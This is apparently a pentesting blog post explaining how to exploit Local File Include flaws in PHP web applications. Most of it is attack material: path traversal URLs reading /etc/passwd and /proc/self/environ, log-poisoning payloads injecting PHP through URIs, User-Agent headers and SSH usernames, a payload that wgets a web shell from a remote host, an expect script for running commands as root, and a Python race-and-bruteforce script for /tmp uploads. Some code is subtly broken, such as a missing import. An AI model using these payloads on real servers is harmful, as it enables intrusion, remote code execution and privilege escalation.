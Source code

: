```yaml
---
layout: post
title:  "Exploiting Local File Includes"
date:   2018-07-27 13:49:33 +0000
tags: [Web Application, pentest, redteam, blueteam]
---
```

![](/blog/assets/padlock.png)

Local File Includes (LFI) is an easy way for an attacker to view files on a server that were not meant to be viewed or retrieved. Through either a mis-configured on the server code or bad programming a would-be attacker can potentially view local Operating System files in the current web-page.

## Exploiting LFI
If you can include files from local application/web server, below is the most basic test for LFI:
```
http://vulnsite.com?exec=aaa/../../../../../etc/passwd
```
This initial test is usually successful as “/etc/passwd’’ file usually as read-world permissions. The application server typically runs as “apache’’ thus denying permission to read “/etc/shadow’’ which usually has stricter permissions. Note: this may be different for IoT devices as they typically run as root!

## Code Execution
Requirements: PHP installed.

There are quite a few nice articles on internet on how one can do code execution from LFI. But essentially, you need php installed and then you try to inject php code into certain files and then try to include these files. These files typically are:
* Apache access logs
* Apache error logs
* /proc/self/environ
* /var/log/apache/error.log

On this occasion the ‘apache’ user had access to read the error logs. So, when you access a URI such as:
```
http://vuln.com/foo%3c%3fphp%20passthru('id')%20%3f%3e
```
It adds the following line to Apache’s error log:
```
404 file not found foo<?php passthru(’id’);?>
```
Now, you can include the error log files and execute the OS code:
```
http://vulnsite.com?exec=aaa/../../../../../usr/local/apache/logs/error_logs%00a
```

## /proc/self/environ
Now lets see if /proc/self/environ is accessible? We replace /etc/passwd with /proc/self/environ
```
www.website.com/view.php?page=../../../../../proc/self/environ
```
If you get something like the below, its highly likely it is exploitable:
```
DOCUMENT_ROOT=/home/test/public_html GATEWAY_INTERFACE=CGI/1.1 HTTP_ACCEPT=text/html, application/xml;q=0.9, application/xhtml+xml, image/png, image/jpeg, image/gif, image/x-xbitmap, */*;q=0.1 HTTP_COOKIE=PHPSESSID=134cc7261b341231b9594844ac2ad7ac HTTP_HOST=www.website.com HTTP_REFERER=http://www.website.com/index.php?view=../../../../../../etc/passwd HTTP_USER_AGENT=Opera/9.80 (Windows NT 5.1; U; en) Presto/2.2.15 Version/10.00 PATH=/bin:/usr/bin QUERY_STRING=view=..%2F..%2F..%2F..%2F..%2F..%2Fproc%2Fself%2Fenviron REDIRECT_STATUS=200 REMOTE_ADDR=6x.1xx.4x.1xx REMOTE_PORT=35665 REQUEST_METHOD=GET REQUEST_URI=/index.php?view=..%2F..%2F..%2F..%2F..%2F..%2Fproc%2Fself%2Fenviron SCRIPT_FILENAME=/home/sirgod/public_html/index.php SCRIPT_NAME=/index.php SERVER_ADDR=1xx.1xx.1xx.6x SERVER_ADMIN=webmaster@website.com SERVER_NAME=www.website.com SERVER_PORT=80 SERVER_PROTOCOL=HTTP/1.0 SERVER_SIGNATURE=
Apache/1.3.37 (Unix) mod_ssl/2.2.11 OpenSSL/0.9.8i DAV/2 mod_auth_passthrough/2.1 mod_bwlimited/1.4 FrontPage/5.0.2.2635 Server at www.website.com Port 80
```
If you got a blank page or an error? /proc/self/environ is not accessible or the OS is likely FreeBSD and not vulnerable to this particular attack.

Now let’s inject our malicious code in proc/self/environ.How we can do that?We can inject our code in User-Agent HTTP Header.

Use Tamper Data Addon for Firefox to change the User-Agent, (or equally another intercepting proxy).
```
<?system(‘wget http://vuln.com/Shells/gny.txt -O shell.php’);?>
```
Start Tamper Data in Firefox and request the LFI similar to (you will have to adapt the URL for your vulnerable website):
```
www.website.com/view.php?page=../../../../../proc/self/environ
```
A PHP-shell should then be available at:
```
www.website.com/shell.php
SSH and /var/log/auth.log
ssh “<?php echo system($_GET[“cmd”]);exit;?>”@example.com
Code should be stored in “/var/log/auth.log’’.
```
Include this log file (“/var/log/auth.log’’) for the win!

## Getting Root
If you are lucky enough to find a password in a clear text file, how could you exploit this?….

After researching the idea, we thought of a way to use “expect’’ with the following 1 line of php script:
```
<?php passthru(‘echo -e \’#!/usr/bin/expect -f\nset password [lrange $argv 0 0]; set cmd [lrange $argv 1 1];set timeout -1; spawn su -c “$cmd” ;
match_max 100000 ;expect “*?assword:*”; send — “$password\r”; send — “\r”; expect eof\’>/tmp/su.exp&/usr/bin/expect /tmp/su.exp passw0rd whoami>>/tmp/out.txt’);?>
```
This script will do the following:
* create an expect script(/tmp/su.exp) which will take the root (su) password and command to execute as argument.
* run the expect script with the root password and command to run as root.

## Getting Root 2
An LFI vulnerability on a pentest once revealed server logs, and “auth.log” was world readable!

By default, OpenSSH makes an entry (consisting of the user name and other data) to auth.log for every authentication attempt made to the ssh daemon. Knowing this, I did some quick testing and found that I could inject php code into auth.log from the user name field of an ssh client by attempting to authenticate. The command took some time to get working right as bash requires finesse for processing special characters, but after some troubleshooting, I came up with the following:
```
<?php echo system($_GET[“cmd”]);exit;?>’@<host>
```
One issue we encountered is that OpenSSH makes 2 entries containing the user name to auth.log for every authentication attempt. In the following example, only one authentication attempt was made, but, as you can see, it appears in the log 2x times.
```
May 10 21:26:57 host sshd[17594]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=host.localdomain user=
<?php echo system($_GET[“cmd”]);exit;?>
May 10 21:26:59 host sshd[17592]: error: PAM: Authentication failure for
<?php echo system($_GET[“cmd”]);exit;?> from host.localdomain
```
The injected command will run three unless php execution is terminated after the first command. We did this above with the exit; command. The unfortunate side effect is that you have one chance to get this right. Otherwise, you have to wait until the log cycles before you can make another attempt. Here is what the final product looked like with the addition of a pre-format tag:
```
http://<host>/index.php?page=../../../../var/log/auth.log?cmd=ls+-lh+/var/log
total 14M
drwxr-xr-x 2 root root 4.0K Apr 2 20:53 ConsoleKit
-rw-r — r — 1 root user 15K May 10 17:03 Xorg.0.log
-rw-r — r — 1 root user 15K May 10 16:00 Xorg.0.log.old
-rw-r — r — 1 root user 7.4K Aug 10 2009 Xorg.6.log
-rw-r — r — 1 root user 7.4K Aug 10 2009 Xorg.6.log.old
drwxr-xr-x 2 apache apache 4.0K May 8 03:10 apache2
…
```
## Abusing tmp
So the plan is to:

Upload a file and trigger a self-inclusion.
Repeat step-1 many times to:
* increase our odds of winning the race
* increase our guessing odds
* Bruteforce the inclusion of /tmp/[0–9a-zA-Z]{6}

Enjoy our shell.

```
import itertools
import requests
import sys
print(‘[+] Trying to win the race’)
f = {‘file’: open(‘shell.php’, ‘rb’)}
for _ in range(4096 * 4096):
 requests.post(‘http://target.com/index.php?c=index.php', f)
print(‘[+] Bruteforcing the inclusion’)
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
 url = ‘http://target.com/index.php?c=/tmp/php' + fname
 r = requests.get(url)
 if ‘load average’ in r.text: # <?php echo system(‘uptime’);
 print(‘[+] We have got a shell: ‘ + url)
 sys.exit(0)
print(‘[x] Something went wrong, please try again’)
```
